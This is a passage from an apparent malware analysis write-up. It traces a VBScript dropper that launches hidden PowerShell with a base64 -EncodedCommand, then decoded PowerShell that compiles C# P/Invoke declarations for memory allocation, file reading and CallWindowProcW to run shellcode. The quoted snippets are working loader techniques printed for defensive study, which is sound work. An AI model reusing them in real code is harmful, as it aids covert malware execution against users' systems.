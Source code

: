 And now the script starts making some movement outside of itself. The `-EncodedCommand` string here indicates we're likely going to see a PowerShell command with a base64 chunk of code. Sure enough, the base64 code in `clabbering` eventually gets used for the PowerShell command. So let's 

```vb
Set obj1 = CreateObject("Shell.Application")
max1=clabbering
RAVNEAGT = " -EncodedCommand " & chr(34) & max1 & chr(34)

If CCA.FileExists(MyFile) = True then 
 obj1.ShellExecute MyFile , RAVNEAGT ,"","",0
else 
 obj1.ShellExecute "powershell.exe", RAVNEAGT ,"","",0
end if 
```

## PowerShell Executing Shellcode with .NET

After decoding the base64 in `clabbering` with CyberChef we can see some PowerShell code that gets executed. Just like the VBScript, the first line or two just contains a useless comment. Looking through the rest of the code there are also a few comments mingled among the useful stuff. For a bit more brevity I've gone ahead and removed comments from the code I show here. To slow down analysis some more, the adversary also threw in a bunch of `Test-Path` commands. None of them seemed to serve any function, so I removed them from the code here.


The first big chunk of PowerShell is an `Add-Type` cmdlet followed by some C# code. `Add-Type` allows you to import a .NET class DLL into memory to work with in PowerShell. When combined with the `-TypeDefinition`, you can provide some raw C# code that gets compiled into bytecode at runtime and loaded into PowerShell. In this case, the adversary defines a .NET class named `Ofayve1` that contains [Platform Invoke (P/Invoke) code](https://posts.specterops.io/offensive-p-invoke-leveraging-the-win32-api-from-managed-code-7eef4fdef16d) that allows the adversary to call native Win32 functions from .NET code. 

```powershell
Add-Type -TypeDefinition @"
using System;
using System.Runtime.InteropServices;
public static class Ofayve1
{
[DllImport("ntdll.dll")]public static extern int NtAllocateVirtualMemory(int Ofayve6,ref Int32 Swat9,int Rasko8,ref Int32 Ofayve,int Metzerespe9,int Ofayve7);
[DllImport("kernel32.dll")]public static extern IntPtr CreateFileA(string BUTTERMA,uint Contra6,int undvrpieti,int Ofayve0,int Foldysy7,int Oboer8,int BLUFF);
[DllImport("kernel32.dll")]public static extern int ReadFile(int Rasko80,uint Rasko81,IntPtr Rasko82,ref Int32 Rasko83,int Rasko84);
[DllImport("user32.dll")]public static extern IntPtr CallWindowProcW(IntPtr Rasko85,int Rasko86,int Rasko87,int Rasko88,int Rasko89);
}
"@
```

From here in, the adversary references that class/type to call Windows API functions. The first three are pretty self-explanatory and I'll put links to their documentation here:
